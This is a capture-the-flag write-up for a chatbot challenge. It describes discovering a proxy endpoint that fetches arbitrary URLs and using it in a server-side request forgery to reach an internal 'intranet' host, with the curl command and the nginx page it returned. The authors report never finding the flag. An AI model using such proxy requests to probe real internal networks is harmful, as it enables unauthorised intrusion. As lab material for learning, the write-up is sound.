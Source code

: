 # ChatBot

## Challenge

For this challenge, we just have a link to a chatbot and "local network" as clue and we know that we have to get access to their intranet.

### Search

At the begin we tried the different options of the chatbot while watching the network analyzer. We found an endpoint named "proxy" and after some test we discovered that we can use this proxy to process any http(s) GET request. So we tried lot of IP/domain and found the nginx default page on http://intranet/. 

``` bash

 celian  ~  curl https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4/proxy?url=http://intranet/ | json_pp
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   698  100   698    0     0   5057      0 --:--:-- --:--:-- --:--:--  5057
{
   "contents" : "<!DOCTYPE html>\n<html>\n<head>\n<title>Welcome to nginx!</title>\n<style>\n    body {\n        width: 35em;\n        margin: 0 auto;\n        font-family: Tahoma, Verdana, Arial, sans-serif;\n    }\n</style>\n</head>\n<body>\n<h1>Welcome to nginx!</h1>\n<p>If you see this page, the nginx web server is successfully installed and\nworking. Further configuration is required.</p>\n\n<p>For online documentation and support please refer to\n<a href=\"http://nginx.org/\">nginx.org</a>.<br/>\nCommercial support is available at\n<a href=\"http://nginx.com/\">nginx.com</a>.</p>\n\n<p><em>Thank you for using nginx.</em></p>\n</body>\n</html>\n",
   "icon" : "Null",
   "title" : "Welcome to nginx!"
}

```

We also noticed that some range of IP return "forbidden" and others return "not found" but we never found the flag for this challenge.